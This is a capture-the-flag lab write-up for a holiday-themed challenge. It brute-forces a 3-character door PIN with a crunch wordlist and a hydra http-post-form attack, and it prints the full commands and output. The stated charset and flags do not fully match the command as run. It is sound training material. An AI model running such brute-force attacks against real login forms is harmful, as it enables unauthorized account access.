


# [Day 3] Brute-forcing - Hydra is Coming to Town
Everyone was shocked to discover that several critical systems were locked. But the chaos didn’t end there: the doors to the IT rooms and related network infrastructure were also locked! Adding to the mayhem, during the lockdown, the doors closed suddenly on Detective Frost-eau. As he tried to escape, his snow arm got caught, and he ended up losing it! He’s now determined to catch the perpetrator, no matter the cost.

It seems that whoever did this had one goal: to disrupt business operations and stop gifts from being delivered on time. Now, the team must resort to backup tapes to recover the systems. To their surprise, they find out they can’t unlock the IT room door! The password to access the control systems has been changed. The only solution is to hack back in to retrieve the backup tapes.

## Solution
We got a site were we can enter a 3-character PIN code:



If we enter a wrong PIN we get the following error message:


If we take a look in the source code we see that the input is given to site with a POST request to the URL ending with `/login.php`. The entered data is delivered under the name `pin`:
```html
[...]

<form method="post" action="login.php" class="grid grid-cols-3 max-w-lg mx-auto bg-thm-900 p-4 font-mono">
      <input type="hidden" name="pin" />

[...]
```

We have 16 different characters and can only type in three of them. So there are `16 * 16 * 16` possibilities for the PIN. We can create a wordlist with `crunch` and try to brute force the PIN with `hydra`.

### `crunch`
Crunch can create a wordlist based on criteria that we specify:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ crunch 3 3 012345689ABCDEF > digits.txt
Crunch will now generate the following amount of data: 13500 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 3375 

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ tail digits.txt
FF5
FF6
FF8
FF9
FFA
FFB
FFC
FFD
FFE
FFF

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

The parameters are:
* `3` minimum length of the generated password
* `3` maximum length of the generated password
* `0123456789ABCDEF` characters to use
* `-o digits.txt` output file

### `hydra`
Hydra is a tool to guess/crack valid login/password pairs. To crack our PIN we can use it like this:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ hydra -l '' -P digits.txt -f 10.10.192.203 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000                                          130 ⨯
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-04 13:51:55
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3375 login tries (l:1/p:3375), ~211 tries per task
[DATA] attacking http-post-form://10.10.192.203:8000/login.php:pin=^PASS^:Access denied
[8000][http-post-form] host: 10.10.192.203   password: 6F5
[STATUS] attack finished for 10.10.192.203 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 13:53:00

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

The parameters are:
* `-l` '' login name is blank as the security lock only requires a password
* `-P` digits.txt as wordlist
* `-f` stops if it find's a valid password
* `10.10.192.203` IP address of the target
* `http-post-form` HTTP POST
* `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    * `/login.php` is the page where the PIN code is submitted
    * `pin=^PASS^` will replace `^PASS^` with values from the password list
    * `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
* `-s 8000` port number

### Unlock door
As we saw in the `hydra` ouput, the code is `6F5`. If we enter the code we can unlock the door and get the flag:

